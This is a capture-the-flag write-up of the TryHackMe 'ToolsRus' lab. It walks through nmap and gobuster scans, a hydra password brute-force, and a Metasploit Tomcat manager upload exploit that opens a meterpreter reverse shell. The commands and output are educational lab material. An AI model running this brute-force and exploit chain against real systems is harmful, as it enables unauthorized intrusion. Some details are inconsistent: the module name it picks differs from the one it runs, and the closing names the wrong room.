 # ToolsRus
> 4lch3my | March 09, 2023
-------------------
#### Practice using tools such as dirbuster, hydra, nmap, nikto and metasploit
#### [Room Link](https://tryhackme.com/room/toolsrus)

## Tasks
##### 1. ToysRus
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>

To start, I use [nmap] which is default option on the personal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP`.
<br>

The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in aggressive mode, so we can follow along with the commands and enumeration.
In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-09 00:50 GMT
Nmap scan report for ip-MACHINE_IP.eu-west-1.compute.internal (MACHINE_IP)
Host is up (0.00066s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:99:f5:94:27:2c:18:9e:ad:03:ef:e8:2e:33:48:40 (RSA)
|   256 4c:73:c5:35:de:02:26:07:fe:dd:92:ed:38:2c:3f:7c (ECDSA)
|_  256 49:d0:53:8b:7c:99:a6:21:7d:40:6c:74:9d:b7:90:80 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
MAC Address: 02:5B:94:C2:14:BD (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=3/9%OT=22%CT=1%CU=40054%PV=Y%DS=1%DC=D%G=Y%M=025B94%TM
OS:=64092D51%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M23
OS:01ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
OS:WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=
OS:6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N
OS:)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```
We see 4 open ports: `22 - SSH`, `80 - HTTP`, `1234 - HTTP` & `8009 - ajp13` what is an Apache service running. Before we visit the webpages lets run a quick adn dirty `GoBuster` scan with: `gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`on port 80:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/08 23:56:41 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
/server-status (Status: 403)
===============================================================
2023/03/08 23:57:10 Finished
===============================================================
```

And on port `1234`: `gobuster dir -u http://MACHINE_IP:1234/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP:1234/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/09 01:00:14 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
===============================================================
2023/03/09 01:00:46 Finished
===============================================================
```
Time to visit all the directory's. Let's go!
<br>

Fist the main page: `http://MACHINE_IP/`. Empty!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/ToolsRUs.PNG?raw=true)

Next will be: `http://MACHINE_IP/guidelines/`. And we found our username!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/bob.PNG?raw=true)

And finally: `http://MACHINE_IP/protected`. We get stopped by an authentication popup asking for a username:password combination. Time for some good old bruteforcing with `hydra`.
<br>

We already know our user, `bob`, `MACHINE_IP`, and `/protected/` directory so we can start a `http-get` attack against our machine with the wordlist of our choise. As this is a `THM machine`, we suspect that the password will be located within the usual `rockyou.txt` file. To run the attack: `hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.241.174 http-get /protected/`.

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2023-03-09 00:11:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.241.174:80//protected/
[80][http-get] host: 10.10.241.174   login: bob   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-03-09 00:11:17
```

Only after a few seconds we find our `password` for the user `bob`. Time to log in to the password protected section of this web server.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/rabbit_hole.PNG?raw=true)

And that's the end of that page. Moving on to the `http://MACHINE_IP:1234/`, where we are greated with the `Apache Tomcat/7.0.88` default page.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/Tomcat.PNG?raw=true)

After a quick `Google` or `ChatGPT` search we can see that this app is quite old and has multiple `CVE's` dedicated to it. Seems like the website admin did not update this for a long time. Making our life's easier I see... Moving on to actually getting on to this machine and grabbing the final flag. As instructed by the box, we will use `Metasploit` to answer the last two questions. 
<br>

After switching to the `Metasploit Console` with the command `mfconsole`, we can search for Tomcat vulnerabilities in the databased stored in the app: `msf6 > search Tomcat`

```
Matching Modules
================

   #   Name                                                            Disclosure Date  Rank       Check  Description
   -   ----                                                            ---------------  ----       -----  -----------
   0   auxiliary/dos/http/apache_commons_fileupload_dos                2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   1   exploit/multi/http/struts_dev_mode                              2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   2   exploit/multi/http/struts2_namespace_ognl                       2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3   exploit/multi/http/struts_code_exec_classloader                 2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   4   auxiliary/admin/http/tomcat_ghostcat                            2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   5   exploit/windows/http/tomcat_cgi_cmdlineargs                     2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
   6   exploit/multi/http/tomcat_mgr_deploy                            2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   7   exploit/multi/http/tomcat_mgr_upload                            2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   8   auxiliary/dos/http/apache_tomcat_transfer_encoding              2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   9   auxiliary/scanner/http/tomcat_enum                                               normal     No     Apache Tomcat User Enumeration
   10  exploit/linux/local/tomcat_ubuntu_log_init_priv_esc             2016-09-30       manual     Yes    Apache Tomcat on Ubuntu Log Init Privilege Escalation
```

The 6th `exploit` on the list `/multi/http/tomcat_mgr_deploy` seems to be exactly what we need. Let's switch to it and configure it:

```
msf6 > use exploit/multi/http/tomcat_mgr_upload
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.241.174
RHOSTS => 10.10.241.174
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
```
Now after it is configured correctly, we can run it:

```
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on HOST_IP:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying l1BnwvSyQFkgg2c8bgBYXr...
[*] Executing l1BnwvSyQFkgg2c8bgBYXr...
[*] Undeploying l1BnwvSyQFkgg2c8bgBYXr ...
[*] Sending stage (58851 bytes) to MACHINE_IP
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (HOST_IP:4444 -> MACHINE_IP:41378) at 2023-03-09 00:45:54 +0000

meterpreter >
```

Success we have access! We can now grab the flag and complete this room!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/flag.PNG?raw=true)

#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeup's of mine or interested in some of my coding work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my